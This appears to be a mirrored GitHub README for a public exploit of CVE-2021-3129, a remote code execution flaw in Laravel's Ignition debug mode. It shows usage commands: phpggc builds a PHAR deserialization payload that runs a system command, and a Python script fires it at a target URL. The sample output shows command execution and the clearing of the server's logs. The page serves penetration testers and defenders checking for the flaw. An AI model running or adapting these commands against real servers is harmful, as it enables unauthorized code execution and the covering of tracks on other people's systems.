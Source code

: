 # laravel-exploits

Exploit for CVE-2021-3129

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/ambionics](https://github.com/ambionics) |
| Url      | [https://github.com/ambionics/laravel-exploits](https://github.com/ambionics/laravel-exploits)                                               |
| Stars    | 237                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# laravel-exploits
Exploit for CVE-2021-3129
Details: https://www.ambionics.io/blog/laravel-debug-rce

# Usage

```bash
$ php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system id 
$ ./laravel-ignition-rce.py http://localhost:8000/ /tmp/exploit.phar
Log file: /work/pentest/laravel/laravel/storage/logs/laravel.log
Logs cleared
Successfully converted to PHAR !
Phar deserialized
--------------------------
uid=1000(cf) gid=1000(cf) ...
--------------------------
Logs cleared
```



## Get the content

```
git clone https://github.com/ambionics/laravel-exploits
cd laravel-exploits
```

{% embed url="https://github.com/ambionics/laravel-exploits" %}

<figure><img src="https://avatars.githubusercontent.com/u/29630660?v=4" alt=""><figcaption><p>ambionics</p></figcaption></figure>
